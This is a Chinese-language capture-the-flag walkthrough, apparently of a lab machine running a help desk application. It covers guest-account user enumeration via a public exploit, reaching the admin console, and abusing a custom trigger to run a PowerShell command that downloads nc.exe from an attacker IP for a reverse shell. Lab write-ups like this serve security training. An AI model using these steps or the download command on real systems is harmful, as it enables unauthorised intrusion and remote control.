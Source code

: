 这里有几种方法都能成功...

![](https://mmbiz.qpic.cn/mmbiz_png/FRKzajjicJGp8Ljeuvd1c8haJLU6BUSTlxUsMxprmqibiaPIs72ByzBEZJuxntmmia0SMtaShx0Yzsa3B8bUS3JAibA/640?wx_fmt=png)

方法 1：

![](https://mmbiz.qpic.cn/mmbiz_png/qI9LT8kbvPP6zO2T1icrJiaBGOgdK9EzicmwyCwyYDS6XtvhmdO4ecfEAejEde70EolLMuPL6oHFTfnBgfylpicHug/640?wx_fmt=png)

利用 35891.txt

这是利用默认密码 guest 用户的用户枚举漏洞...GO

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXBGv2XGicy9wJvsCK8fml96F8fpCrgOkfkGj1iah9qKiaAdcPmkT3wwMGw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXRkA8uuqrncuswouibnxiciaMhnDPpWOicOgolicBCb9GcJj1BX9UGFdib7xg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXy1Bjictj5UIibia6MQYjib2h3xs00dZe4lQwfVrY6icic0JTKKOJBh1k9vVg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXuqzpmNSUCjPibe3qeVDlkN7Bd8F7u0mCNxG26AumZpGCVfDhdNf06Yg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXNFWXDblJZ1pUStbEagOAx8ktBoWHfeuQ0Iibpb2uvSfldPiccLBEZJNA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXzY4kLqXVFanmDzQUqvQPPNAskHOafadVc8iczibQYGoeibu0ics4oSV3kA/640?wx_fmt=png)

将 / mc/jsp/MCD... 删除，然后访问后即可重定向到 administrator 管理界面...

可看到已进入管理界面...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXPEDCecTlbUTlHcQk766wQynibDtY63HqRQhiagbIhEOl2mT8HmdJK3sA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXEpI3rdw6lKoJicKo8z32c4kwykY83JAW3mCaZV6sM3MXYyATHnmoKKw/640?wx_fmt=png)

里面的意思是：可以定义规则以自动调用任何自定义类或脚本文件，在创建、接收或编辑请求时，可以将操作规则应用于该请求...

这里调用 shell 命令，然后创建请求触发即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpX4QUs19jibNb27K5RXrjX4VqQQYKRjXrdYnE4v1JwxEZeljicrS2qrwhw/640?wx_fmt=png)

```
powershell -command Invoke-WebRequest http://10.10.14.51/nc.exe -OutFile C:\Windows\System32\spool\drivers\color\nc.exe
```

这里利用 powershell 上传 nc 执行反向 shell 命令即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXe5wOGbJtibjXr0tPiblfwNHLT4Oprv4G6k88rBh6DZyqlKdKotLQTomQ/640?wx_fmt=png)

成功创建好触发器...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXI3MLaTXCYf05iaMwVicia4pteTdvqV2Oo6DCgkC4ZBoR2nynBxl5aPOsg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXcO9DnVYJc3eeQqHdehwqSR6pldjdumSweRTRBeEfbibVasEdCiaNle1Q/640?wx_fmt=png)

然后回到 Request 创建请求触发，成功 python 服务器上传 nc...
